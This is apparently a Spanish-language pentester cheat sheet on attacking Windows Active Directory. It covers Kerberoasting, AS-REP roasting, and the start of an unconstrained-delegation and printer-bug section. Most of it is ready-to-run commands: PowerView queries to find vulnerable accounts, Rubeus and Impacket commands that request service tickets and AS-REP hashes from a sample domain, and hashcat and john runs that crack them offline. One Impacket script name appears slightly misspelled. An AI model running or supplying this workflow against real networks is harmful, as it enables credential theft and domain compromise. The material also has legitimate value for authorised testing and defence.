 #### Kerberoasting
Tanto Kerberoasting como ASREPROASTING **nos sirve solamente para Crackear el ticket**

**Detect** 🕵️‍♂️
tag : #Kerberoast
```powershell
Get-DomainUser -SPN | select samaccountname,serviceprincipalname,lastlogon
```

**Attacking** ⚔
Rubeus
`execute-assembly /opt/tools/rubeus/Rubeus.exe kerberoast /user:svc_test /nowrap`

Powerview 
```powershell
1. Get-DomainSPNTicket -SPN "MSSQLSvc/sqlserver.targetdomain.com"
2. Invoke-Kerberoast -Domain dev.evilcorp.local -Identity "svc_test" | fl | Out-File -Encoding UTF8 -FilePath c:\ProgramData\Kerberoast.txt -Append -Force
```

Impacket 
```powershell
GetUsersSPN.py dev.evilcorp.local/[$user]:[$Pass] -request-user "svc_test"
```

##### Cracking 🪓
tag : #cracking
hashcat
`hashcat -a 0 -m 13100 hash.txt $(pwd)/rockyou.txt --rules-file $(pwd)/hashcat/rules/best64.rule`

john
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

#### ASREPROASTING
tag : #asreproast

**Detect** 🕵️‍♂️
`Get-DomainUser -PreAuthNotRequired | select samaccountname,description,lastlogon`

**Attacking** ⚔
Rubeus
`execute-assembly /opt/tools/rubeus/Rubeus.exe asreproast /user:c.rodolfo /nowrap`

Impacket
```powershell
GetNPUsers.py DEV/c.rodolfo -no-pass
GetNPUsers.py dev.evilcorp.local/ -no-pass -usersfile users.txt
```


#### Unconstrained 🔗 Chain with - Printer Bug
tag : #unconstrained
</br>

**Permite que un usuario actue en nombre de otro usuario u otro servicio**. además podemos encadenar esta vulnerabilidad con el error de la impresora ('spoolsample')
